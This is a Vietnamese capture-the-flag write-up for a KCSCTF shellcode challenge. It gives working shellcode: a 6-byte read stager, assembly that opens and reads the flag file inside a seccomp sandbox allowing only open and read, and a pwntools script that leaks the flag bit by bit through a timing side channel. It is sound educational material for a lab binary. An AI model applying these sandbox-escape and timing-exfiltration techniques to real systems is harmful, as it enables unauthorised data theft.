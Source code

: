 # SHELLCODE+TIMING ATTACK

Bài này ta được cung cáp file src như sau :
```C
// gcc chall.c -o chall -lseccomp

#define _GNU_SOURCE 1

#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <stdio.h>
#include <seccomp.h>

void *shellcode_mem;
size_t shellcode_size;

int main(int argc, char **argv, char **envp)
{
    shellcode_mem = mmap((void *) 0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode_mem == (void *) 0x1337000);
    puts("hihihihi");
    puts("Welcome to the KCSCTF shellcode sandbox!");
    puts("======================================");
    puts("Allowed syscalls: open, read");
    puts("You've got 6 bytes, make them count!");
    puts("======================================");
    fflush(stdout);

    shellcode_size = read(0, shellcode_mem, 0x6);
    assert(shellcode_size > 0);

    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);

    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0) == 0);    
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0) == 0);

    assert(seccomp_load(ctx) == 0);

    ((void(*)())shellcode_mem)();
}
```
ta có thể thấy rằng ở bài này tác giả đã cố ý sử dụng seccomp để cho ta chỉ có thể sử dụng hai syscall là sys.read và sysopen . Cùng với đó ta có thể thấy trước 
dó chương  trình đã gọi hàm mmap để tạo ra một khoảng bộ nhớ để có quyền RWX và sẽ đọc 6byte vô địa chỉ đó(0x1337000), rồi mới thiết lập seccomp ,cuối cùng nó sẽ thực thi 6byte shellcode mà ta đã ghi vô 0x1337000.
. Vậy ta chỉ còn có cách là dùng 6 byte shellcode đó gọi hàm read và ta sẽ ghi thêm shellcode vô địa chỉ(0x1337000+6) để điều khiển chương trình .

# PLAN 
1. dùng 6 byte shellcode đọc để gọi hàm read vô địa chỉ 0x1337000+6 tiếp tục điều khiển chương trình
2. ta sẽ đọc flag và brute force từng byte của chương trình để lấy flag

# Stage1: 

phần này thì chỉ cần debug chương trình , đặt break point ngay trước khi chương trình thục thi shell code của ta thì ta sẽ thấy các thanh ghi như sau :
```asm
rax: 0
rdx: 0x1337000
rdi: giá trị nào đó 
```
vậy để có thể gọi hàm read thì ta chỉ cần rsi chỏ đển địa chỉ buffer mà ta muốn đọc vô và rdi=0 để có thể đọc dưới dạng là stdin . vậy ta sẽ có shell code như sau :
```asm
mov esi,edx
xor edi,edi
syscall
```

và ta có shellcode như sau :
```python
shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
```
ok ta thấy rằng shell code của ta khônng dính null byte và vừa đủ 6 byte.

# Stage2:
ta có code như sau :

```asm
        xor rax,rax         
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110     ; địa chỉ sẽ chứ đường dẫn "./flag\x00" của ta 
        xor rsi,rsi
        xor rdx,rdx
        syscall               ; sys open 
        mov edi,eax           ; 
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210     ; sau khi mở thì ta sẽ đọc flag vô địa chỉ 0x1337210
        syscall               ; sys read
```


```python
            shellcode=b"A"*6 # padding qua 6 byte trước đó 
            shellcode+=shellcode__(index,bit_offset)# shellcode ở phía  trên 
            shellcode=shellcode.ljust(0x110) # padding đế địa chỏ chứa đường dẫn của ta 
            shellcode+=b'./flag\x00' # đường dẫn 
```

OK vậy là xong bước 2 . debug trên local thì ta sẽ thấy chương trình đã đọc flag vô địa chỉ 0x1337210;


Bước còn lại là lấy flag ra . Ta sẽ sử dụng timing attack , ta sẽ cho chương trình đọc từng byte của flag vô thanh ghi bl sau đó đối chiếu với từng ký tự asccii có thể in ra .
nhưng cách này thì rât lâu bơi ta sẽ phải đối chiếu với rất tất cả các ký tự asccii trong string.printable.Và lúc thi thì mình làm cách này =))

Nhưng sau khi xem solution thì mình sẽ dùng cách khác đó là đối chiếu từng từng bit , dùng cách này thì ta sẽ chỉ cần 8 lần brute ta đã có thể lấy được 1 chữ .

mình sẽ lấy VD để dễ giải thích hơn :

ta biết chữ đầu tiên trong flag sẽ là "K" dưới dạng bin thì sẽ là '0100 1011', ta sẽ đối chiếu từng bit như sau 

```asm
        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        ; vd ta muốn lấy second least significant bit(bit thứ 2 từ phải qua) tương ứng với index=1
        shr bl,{bit_offset}    ;(0100 1011) >> 1= 0010 0101
        shl bl,7               ; 0010 0101 << 7= 1000 0000
        shr bl,7               ; 1000 0000 >> 7= 0000 0001
        INFI_LOOP:
            cmp bl,0           ; nếu bit đó là 1 thì ta sẽ cho chương trình chạy vô hạn 
            je end             ; 0 thi thoát
            jmp INFI_LOOP
        end:
```

vậy để kiểm tra xem chương trình có rơi vào INFI_LOOP không thì ta chỉ cần :
```python
start=time.time()# thời gian ngay sau khi ta send payload lần 2
p.recvall(timeout=1).decode()# nếu chương trình rơi vào vong INFI loop thì sẽ có  1 giay khác bieejt giữa giá trị của now và start. còn nếu chương trình nhảy vô end thì nó sẽ thoát luôn
now=time.time()
```



vậy ta sẽ có code như sau :
```python
def shellcode__(index,bit_offset):
    shellcode=asm(
        f'''
        xor rax,rax
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110
        xor rsi,rsi
        xor rdx,rdx
        syscall
        mov edi,eax
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210
        syscall

        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        shr bl,{bit_offset}
        shl bl,7
        shr bl,7
        cmp bl,0
        INFI_LOOP:
            cmp bl,0
            je end
            jmp INFI_LOOP
        end:
        '''
        )
    return shellcode
def timing_attack(index):
    string_bin=''
    for bit_offset in range(8):
        
            #p=remote("103.162.14.240", 15000)
            p=process(exe.path)
            #GDB()
            shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
            p.send(shellcode)
            shellcode=b"A"*6
            shellcode+=shellcode__(index,bit_offset)
            shellcode=shellcode.ljust(0x110)
            shellcode+=b'./flag.txt\x00'
            p.send(shellcode)
            start=time.time()
            p.recvall(timeout=1).decode()
            now=time.time()
            if (now-start>1):
                string_bin='1'+string_bin
            else:
                string_bin='0'+string_bin
    byte=int(string_bin,2)
    return byte
```

author scipt in s.py

my script in p.py

chạy script và ĐỢI thì ta sẽ có flag:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/5b920ea4-d031-46ca-8666-ab2bb1aef9bf)

flag`KCSC{S1de_channel_hihihi_d6e25f87c7ebeef6e80df23d32c42d00}`




